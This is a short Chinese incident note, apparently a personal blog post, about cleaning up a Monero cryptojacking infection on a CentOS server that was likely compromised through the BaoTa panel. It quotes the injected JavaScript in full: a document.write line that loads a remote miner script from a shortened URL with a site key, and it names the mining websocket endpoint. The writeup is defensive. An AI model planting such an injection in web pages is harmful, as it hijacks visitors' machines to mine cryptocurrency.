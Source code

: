 #+TITLE:  XMR 恶意挖矿脚本处理笔记 
#+AUTHOR:    zrg
#+EMAIL:     zrg1390556487@gmail.com
#+LANGUAGE:  cn
#+OPTIONS:   H:3 num:t toc:nil \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:t skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+INFOJS_OPT: view:plain toc:t ltoc:t mouse:underline buttons:0 path:http://cs3.swfc.edu.cn/~20121156044/.org-info.js />
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://cs3.swfu.edu.cn/~20121156044/.org-manual.css" />
#+EXPORT_SELECT_TAGS: export
#+HTML_HEAD_EXTRA: <style>body {font-size:14pt} code {font-weight:bold;font-size:12px; color:darkblue}</style>
#+EXPORT_EXCLUDE_TAGS: noexport
#+LINK_UP:   
#+LINK_HOME: 
#+XSLT: 

#+STARTUP: showall indent
#+STARTUP: hidestars
#+BEGIN_EXPORT HTML
---
layout: post
title: XMR 恶意挖矿脚本处理笔记
author: zrg
description:   
excerpt: 
comments: false
categories: 
- Linux
tags:
- 恶意挖矿
- 病毒
---
#+END_EXPORT

# (setq org-export-html-use-infojs nil)
感谢您阅读此文，如果您发现任何错误，请发邮件至 zrg1390556487@gmail.com，谢谢！
# (setq org-export-html-style nil)

* 事件描述
** 概况
: 服务器安装系统为 CentOS 7，服务器用户一直采用密钥登录，通过用户登入攻击的可能性几乎为零。
: 服务器上所有站点使用宝塔面板面板管理，所以唯一的可能性是通过攻破了宝塔面板进入，然后注入恶意挖矿脚本的。
: 未能查到相关日志，所以判断是宝塔面板被攻破也只是猜测。
** 表象
: 下面陈述被攻击后的表象：
+ 服务器资源被大量占用，资源占用率飙升；
+ 服务器所有JS文件被篡改，向输出页面增加了一个script标签（document.write('<script src="http://t.cn/EvlonFh"></script><script>OMINEId("e02cf4ce91284dab9bc3fc4cc2a65e28","-1")</script>');）
+ 网站无法加载，会出现浏览器卡死的情况
* 问题排查及解决
** 排查
: 1. 访问服务器上运行的站点（包括宝塔面板），F12，发现不停访问一个wss的地址（wss://xmr.omine.org:8181/），并且很慢。
: 2. 搜索这个地址，得知此为 XMR 恶意挖矿脚本。
** 解决
: 1. 删除站点所有感染 js 文件；
: 2. 从代码仓库pull，重新上传部署。
* 参考
+ [[https://www.cnblogs.com/Rebybyx/p/9913779.html][XMR恶意挖矿脚本处理笔记]]
+ [[https://www.freebuf.com/articles/system/186743.html][XMR恶意挖矿案例简析]]
